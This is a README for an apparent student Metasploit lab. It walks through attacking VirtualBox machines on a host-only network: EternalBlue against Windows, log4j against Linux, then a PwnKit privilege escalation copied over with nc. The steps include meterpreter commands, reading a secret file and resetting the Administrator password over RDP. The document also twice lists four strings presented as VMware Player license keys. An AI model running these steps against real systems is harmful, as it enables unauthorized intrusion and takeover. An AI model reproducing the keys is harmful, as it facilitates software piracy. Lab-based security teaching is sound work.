 # IntroMetasploit

BY : :flying_saucer: Cr4zyD14m0nd :milky_way:

## Summary:

Metasploit introduction.

Tasks to do:

1. Exploit an eternal blue vulnarability in windows.
2. Exploit a log4j vulnerability in Linux.

## Description

We will make an attack to two machines and escalate privilege.

- Parrot OS, is an operative system maded for pentesters by pentesters based on debian, it is open source.

- Scripts maded by Cr4zyD14m0nd, these scripts will automate some boring tasks like the instalation of some tools, this scipts are maded in bash.

- Metasploit framework is a very powerful tool which can be used by cybercriminals as well as ethical hackers to probe systematic vulnerabilities on networks and servers.

- EternalBlue exploits SMBv1 vulnerabilities to insert malicious data packets and spread malware over the network. The exploit makes use of the way Microsoft Windows handles, or rather mishandles, specially crafted packets from malicious attackers.

- The Log4j vulnerability allows malicious attackers to execute code remotely on any targeted computer. What is Log4j : Log4j an open source software, a logging library for Java, is widely used by businesses and web portals. Earlier this month, this open source software was in the news for its vulnerabilities.

## Steps To Reproduce:

1. Set up

    1. Download vmware or virtualbox [1]
    Keys for vmware Plater 16.1.1
    ZF3R0-FHED2-M80TY-8QYGC-NPKYF
    YF390-0HF8P-M81RQ-2DXQE-M2UT6
    ZF71R-DMX85-08DQY-8YMNC-PPHV8
    AZ3E8-DCD8J-0842Z-N6NZE-XPKYF
    2. Download Parrot iso or parrot for vms [2]
    3. Follow the links of how to install vmware [3]
    4. Follow the links of how to setup parrot in vmware [4]
    5. Verify that you are using Host only in your parrot machine [5]
    6. Donwload the linux and the windows machines and open it in virtualbox, if you do this in vmware you will get an error message. [6]
    7. Now put the Host Only adapter to the machines. [7]
    8. Turn on your parrot maching and login [8]
    9. Turn on the windows machine and the ubuntu machine [9]
    10. make a git clone from Cr4zyD14m0nd repository from this repository: https://github.com/Cr4zyD14m0nd/TareaSocialEngennering (git clone 'url') [10]

### Windows machine.

1. Windows Attack

    1. In the folder MetasploitIntro you have a script, before do anything you need to be a root user.

        `sudo su`
        `Enter your password`

    2. Now we need to give the permisions to the script.

        `chmod +x IntroMetasploit.sh`

    3. Now run the first script.

        `./InstalacionSetoolkit.sh`

    4. Now we have the script running and all the requirements installed, the next step is navigate through the menu.

        First exploit the windows machine choosing the option 1, once finished the process you can exit and ctrl + c to run again the script and then chose the option 2 to exploit the linux machine.

    5. Enter the required options to the script.

    6. Once you have a meterpreter session you need enter te next commands.

        `getuid`
        `shell`
        `cd ..`
        `cd ..`
        `cd Users`
        `cd Administrator`
        `cd Documents`
        `type secret.txt.txt`
    
    7. Now open a new terminal and use the root user and follow the instructions.

        type in the new terminal `rdesktop 192.168.56.10`, Enter and type yes.
        Once you have a remote desktop go to the Start button click them and navigate to control panel, once you are in the control panel section, go to add or remove accounts, go to administrator and change the password.


    ### Attacking linux

    1. Run the script IntroMetasploit.sh and chose the option 2 and enter the required parameters.

        `./IntroMetasploit.sh`

    2. Now you are in the machine, the next step is get a root user for this we will use the Pwnkit exploit.

        You can download the pwnkit exploit or use it from the folder that you downloaded at the begining

    * https://github.com/ly4k/PwnKit

    3. Now you need to open another terminal in the folder were you have the pwnkit exploit.

    4. in your first terminal type:

        `nc -l -p 1337 > Pwnkit`

    5. In the second terminal type:

        `nc -w 3 192.168.56.20 1337 < Pwnkit`

    6. Now in the first terminal give it the execute permisions to Pwnkit.

        `chmod +x Pwnkit`
    
    7. And then excecute it.

        `./Pwnkit`

    8. Now you are root, to confirm it run the next command.

        `id`
    
    ## Supporting material:

    Download Parrot iso or parrot for vms [1]

    Download vmware or virtualbox [1]
    Keys for vmware Player 16.1.1
    ZF3R0-FHED2-M80TY-8QYGC-NPKYF
    YF390-0HF8P-M81RQ-2DXQE-M2UT6
    ZF71R-DMX85-08DQY-8YMNC-PPHV8
    AZ3E8-DCD8J-0842Z-N6NZE-XPKYF

    Follow the links of how to install vmware [1]
    Follow the links of how to setup parrot in vmware [2]

    [1] https://www.parrotsec.org

    [2] https://www.youtube.com/watch?v=9QXXyG0hKtI
    
    [3] https://www.youtube.com/watch?v=NoivU2LrUrI

    [4] If you dont have the log4j exploit you can download it from here:
    [4] https://github.com/rapid7/metasploit-framework/blob/master//modules/exploits/multi/http/log4shell_header_injection.rb

    [5] How to put your adapter in Host only.
    [5] https://www.youtube.com/watch?v=FlP0YUKPHGo
    
    [6] PwnKit
    [6] https://github.com/ly4k/PwnKit
